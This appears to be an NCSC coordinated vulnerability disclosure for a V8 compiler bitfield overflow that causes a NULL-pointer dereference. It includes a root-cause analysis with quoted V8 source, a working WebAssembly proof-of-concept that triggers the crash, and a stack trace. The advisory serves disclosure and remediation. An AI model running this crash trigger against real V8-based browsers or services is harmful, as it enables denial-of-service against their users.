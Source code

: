 NCSC Contact Information
The vulnerability disclosure mailbox is 'security@ncsc.gov.uk'. Please contact us for our PGP key.

Crediting NCSC
NCSC would appreciate appropriate credit as 'The UK's National Cyber Security Centre (NCSC)' in any advisories which you may publish about this issue. 

Verification, Resolution and Release
Please inform NCSC via the 'security@ncsc.gov.uk' mailbox, quoting the NCSC Reference above, should you:
confirm that this is a security issue
allocate the issue a CVE identifier
determine a date to release a patch
determine a date to publish advisories

NCSC Disclosure Policy
NCSC has adopted the ISO 29147 approach to vulnerability disclosure and, as such, follows a coordinated disclosure approach with affected parties. We have never publicly disclosed a vulnerability prior to a fix being made available. NCSC recognises that vendors need a reasonable amount of time to mitigate a vulnerability, for example, to understand the impact to customers, to triage against other vulnerabilities, to implement a fix in coordination with others, and to make that fix available to its customers. As this will vary based on the exact situation NCSC does not define a set time frame in which a fix must be made available, and we are happy to discuss the circumstances of any particular disclosure. If NCSC believes a vendor is not making appropriate progress with vulnerability resolution, we may, after discussion with the vendor, choose to share the details appropriately (for example, with service providers and our customers) to ensure that we provide appropriate mitigation of the threat to the UK and to UK interests.

Disclaimer
Any NCSC findings and recommendations made have not been provided with the intention of avoiding all risks, and following the recommendations will not remove all such risk. Ownership of information risks remains with the relevant system owner at all times.

Summary
A null pointer dereference has been discovered in V8 compiler which affects the latest version. This vulnerability allows an attacker to bypass a security mitigation.

Details
The V8 compiler produces a node-graph representing Javascript and WASM to be compiled to native code. Several optimisation steps are applied to this graph including dead-code elimination, these require traversing the node-graph and recording the usage of each Node in the graph.

Proof Of Concept
V8 has a structure v8::internal::compiler::Node::Use which is used to record information about a Node being used, as well as the input node that causes that use. The Use structure contains a bit-field that is used to hold multiple pieces of information:
 
struct Use {
    uint32_t bit_field_;
    // ...
    typedef BitField<bool ,0 ,1> InlineField;
    typedef BitField<unsigned ,1 ,17> InputIndexField;  //[1]
    // Leaving some space in the bitset in case we ever decide to record
    // the output index.
};

[1] InputIndexField only provides 16-bits of space to store the index of the input Node of this Use. This effectively limits the the number of inputs Uses. However there does not appear to be any actual code to enforce this limitation, therefore by constructing a graph with a large number of input Nodes to a single Node it is possible to overflow this bitfield.

There is nothing stored above bit 17 in this bitfield, so we do not overflow into anything. However by overflowing we cause the InputIndexField, once decoded to wrap around to zero. 

The following code attempts to use the input_index (loaded from the bitfield) to locate the input Node object. In our case we can cause input_index to be zero. 
 
Node* from() {
    Use* start = this + 1 + input_index();  //[2]
    return is_inline_use() ? reinterpret_cast<Node*>(start)  //[3]                         
    : reinterpret_cast<OutOfLineInputs*>(start)->node_;
}  

For space saving purposes, V8's compiler arranges Node and Use objects in a specific layout as described in this comment:

//============================================================================ //== Memory layout =========================================================== //============================================================================ // Saving space for big graphs is important. We use a memory layout trick to // be able to map {Node} objects to {Use} objects and vice-versa in a // space-efficient manner.
//
// {Use} links are laid out in memory directly before a {Node} ,followed by
// direct pointers to input {Nodes}.
//
// inline case:
// |Use #N  |Use #N-1|...|Use #1  |Use #0  |Node xxxx |I#0|I#1|...|I#N-1|I#N| //          ^                              ^                  ^
//          + Use                          + Node             + Input
//
// Since every {Use} instance records its {input_index} ,pointer arithmetic
// can compute the {Node}.
//
// out-of-line case:
//     |Node xxxx |
//     ^       + outline ------------------+
//     +----------------------------------------+
//                                         |    |
//                                         v    | node
// |Use #N  |Use #N-1|...|Use #1  |Use #0  |OOL xxxxx |I#0|I#1|...|I#N-1|I#N| //          ^                                                 ^
//          + Use                                             + Input
//
// Out-of-line storage of input lists is needed if appending an input to
// a node exceeds the maximum inline capacity.

The code at [2] is trying to access Input Node #N from Use #N by pointer arithmetic. However in our case when we overflow the bitfield this causes input_index to be zero.

[3] Tries to cast the pointer this + 1 (which will actually be Use #N-1) to either a Node or a OutOfLineInputs, causing a type-confusion.

The first kMaxInlineCapacity (14) Nodes are stored with their inputs inline, further nodes are stored with OutOfLineInputs.

This means that at [3] for the first bitfield overflowing Node, the is_inline_use will return false and the Use #N-1 will be incorrectly used as a OutOfLineInputs*. 

The first field of the OutOfLineInputs structure is the node_ field which is returned. This happens to overlap with the Use next field. Unfortunately in our overflow situation this next field is NULL, meaning when the Node returned from from is used, we will get a NULL-pointer dereference crash. 

When the bitfield overflow is triggered, this memory layout of Uses will always been in effect. This means that it is only ever possible to overflow onto the previous Use which will inevitably cause the observed NULL-deref. Therefore NCSC believe that the only result of this vulnerability can be a denial-of-service. 

It may be theoretically possible to hit this bug via jitted JavaScript, however exploitation is significantly easier via WebAssembly, as controlled wasm instructions can be used to force generation of the required Node graph. This code depends on wasm-constants.js and wasm-module-builder.js from the V8 source code. 

let builder = new WasmModuleBuilder();
let body = [];

const NUM_CASES = 0x40000-1;

for (let i=0; i<NUM_CASES; i++) {
    body.push(kExprBlock);
    body.push(kWasmStmt);
}

// Add a BrTable which selects a code block based on arg0
body.push(kExprBlock);
    body.push(kWasmStmt);
    body.push(kExprGetLocal, 0);
    body.push(kExprBrTable, ...varuint32(NUM_CASES));
    for (let i=0; i<NUM_CASES; i++) {
        body.push(...wasmI32Const(i));
    }
    body.push(0); // default case
body.push(kExprEnd);

for (let i=0; i<NUM_CASES; i++) {
    //body.push(...wasmI32Const(i));
    body.push(kExprReturn);
    body.push(kExprEnd); 
}

builder.addFunction('main', kSig_v_i)
    .addBody(body)
    .exportFunc();

let mod = new WebAssembly.Module(builder.toBuffer(true));
let inst = new WebAssembly.Instance(mod, {});
inst.exports.main(0);


Exception Call Stack:
    
    Exception thrown at 0x00007FF6D3B6D6B1 in d8.exe: 0xC0000005: 
    Access violation reading location 0x0000000000000010.
    >   [Inline Frame] d8.exe!v8::internal::compiler::NodeMarker<bool>::Get(const v8::internal::compiler::Node * node) Line 67
        [Inline Frame] d8.exe!v8::internal::compiler::GraphTrimmer::IsLive(v8::internal::compiler::Node * const node) Line 39
        d8.exe!v8::internal::compiler::GraphTrimmer::TrimGraph() Line 35
        [Inline Frame] d8.exe!v8::internal::compiler::LateGraphTrimmingPhase::Run(v8::internal::compiler::PipelineData * data, v8::internal::Zone * temp_zone) Line 1581
        d8.exe!v8::internal::compiler::PipelineImpl::Run<v8::internal::compiler::LateGraphTrimmingPhase>() Line 1085
        [Inline Frame] d8.exe!v8::internal::compiler::PipelineImpl::ComputeScheduledGraph() Line 2245
        d8.exe!v8::internal::compiler::PipelineWasmCompilationJob::ExecuteJobImpl() Line 1034
        d8.exe!v8::internal::OptimizedCompilationJob::ExecuteJob() Line 223
        d8.exe!v8::internal::compiler::TurbofanWasmCompilationUnit::ExecuteCompilation() Line 5148
        d8.exe!v8::internal::wasm::WasmCompilationUnit::ExecuteCompilation() Line 87 


The offending bitfield was added in v8 4.5 and is still present in 7.5. The PoC code uses WebAssembly to access it, this was added later.

Mitigation
Address the bitfield issue to remediate the reported issue.

